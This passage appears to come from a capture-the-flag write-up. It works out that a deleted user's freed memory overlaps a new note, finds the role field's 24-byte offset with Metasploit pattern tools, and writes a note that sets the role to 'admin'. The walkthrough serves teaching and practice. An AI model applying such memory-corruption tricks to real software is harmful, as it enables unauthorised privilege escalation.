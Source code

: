 ```
Your choice: 2

Username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Role: AAAAAAAAAAAAAAA

```

My guess here is that either these are stored on the stack in fixed buffers that are overflowable, or they are on the heap and the username pointer is not-nulled when the buffer is free. So if my note is too long and not checked, it overwrites into the username and role.

This doesn’t happen if the user isn’t deleted, so there must be some check for an active user before allowing the write.

#### Exploit

To understand where exactly the overflow is happening, I’ll use the `pattern_create` utility from Metasploit:

```
oxdf@hacky$ pattern_create -l 30
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9

```

I’ll start the program, create a user, delete the user, and then create a note with that pattern as the body. Then on viewing the user data:

```
Username: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9
Role: Aa8Aa9

```

The username now matches the note exactly! And the roles starts 24 bytes in:

```
oxdf@hacky$ pattern_offset -q Aa0A
[*] Exact match at offset 0
oxdf@hacky$ pattern_offset -q Aa8A
[*] Exact match at offset 24

```

To get admin, I’ll again delete the user ( `3`), then add a note with 24 bytes of anything, and then “admin”:

```
Your choice: 4

Write your note:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7admin

```

Now it says I have admin:

```
Your choice: 2

Username: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7admin
Role: admin

```
